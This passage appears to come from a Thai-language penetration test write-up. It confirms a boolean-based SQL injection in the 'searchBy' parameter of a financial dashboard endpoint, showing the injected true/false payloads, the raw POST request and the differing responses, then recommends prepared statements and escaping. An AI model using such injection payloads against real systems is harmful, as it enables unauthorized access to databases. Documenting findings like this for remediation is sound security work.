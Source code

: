 เนื่องจากคำสิ่งที่เรา Inject เข้าไปนั้น จะมีค่าเป็น True เสมอ ซึ่งได้ Response ดังนี้ ซึ่งเป็น Response ที่มีข้อมูล

\begin{lstlisting}[numbers=none] 
HTTP/1.1 200 OK
Date: Mon, 13 May 2019 03:01:42 GMT
Content-Length: 3984
[...]

{"iTotalRecords":12,"iTotalDisplayRecords":12,"data":[[1,"1905101637LUZFN81","IRM","YYYY","George Adam1","567899000000","George Adam1","SGD","99.02","THB","37.58","31.3200000","FA","318013"]]
[...]
\end{lstlisting}

จากนั้นทดสอบใส่คำสั่ง SQL ดังต่อไปนี้ลงไปในค่าของตัวแปร searchBy แต่ครั้งนี้คำสั่งที่ใส่ไปจะมีค่าเป็น False

\begin{lstlisting}[numbers=none] 
SENDING_NAME='YYYY' and '1'='0' and SENDING_NAME
\end{lstlisting}

จะได้ Request ดังต่อไปนี้

\begin{lstlisting}[numbers=none] 
POST [REDACTED]/dashboardV4.htm HTTP/1.1
[...]

cmd=getDashBoardTransaction&transactionType=OUW&searchBy=SENDING\_NAME='YYYY' and '1'='0' and SENDING\_NAME&searchValue=YYYY&currency=&country=&status=&startDate=2019-05-02&endDate=2019-05-13
\end{lstlisting}

Response ที่ได้กลับมาไม่มีข้อมูลอะไรอยู่เลย

\begin{lstlisting}[numbers=none] 
HTTP/1.1 200 OK
Date: Mon, 13 May 2019 03:01:42 GMT
Content-Length: 54
[...]

{"iTotalRecords":0,"iTotalDisplayRecords":0,"data":[]}
\end{lstlisting}

ดังนั้นจึงยืนยันได้ว่าคำสั่ง SQL ที่ใส่เข้าไปถูกตัวเว็บแอปพลิเคชันนำไปทำงาน ซึ่งตัวแปรที่ทำให้เกิดช่องโหว่นี้คือตัวแปร searchBy

วิธีการแก้ไขคือควรใช้ SQL Prepare Statements แทนการเชื่อม String เนื่องจากส่วนข้อมูล Input กับ คำสั่งจะไม่ถูกนำมาต่อกันโดยตรง ถ้าไม่สามารถใช้ SQL Prepare Statement ได้ เนื่องจากข้อจำกับของภาษา หรือ Framework ก็ไม่ควรนำ Input จาก User เข้าไปใช้กับ Database โดยตรง

ซึ่งหมายความว่าตัวอักขระพิเศษเช่น Single Quote (') หรือ Double Quote (") จะต้องถูก Escape ก่อน (แปลงจาก ' เป็น \textbackslash') เพื่อให้ Database มองว่าเป็นข้อมูล ไม่ใช่คำสั่ง

